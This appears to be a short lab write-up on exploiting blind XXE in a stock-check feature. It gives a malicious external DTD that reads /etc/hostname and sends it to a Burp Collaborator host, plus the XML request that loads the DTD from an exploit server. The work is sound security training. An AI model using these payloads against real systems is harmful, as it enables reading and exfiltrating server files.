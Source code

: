 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

### step1

copy bupcollaborator
go to exploit url
eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

![screenshot](./images/lab5_expolite.png)

### step2

in reapeater
add this url
https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>
1</productId><storeId>1</storeId></stockCheck>
```

send request

now goto burpcollaborator

![screenshot](./images/lab5_burpcollaborator.png)
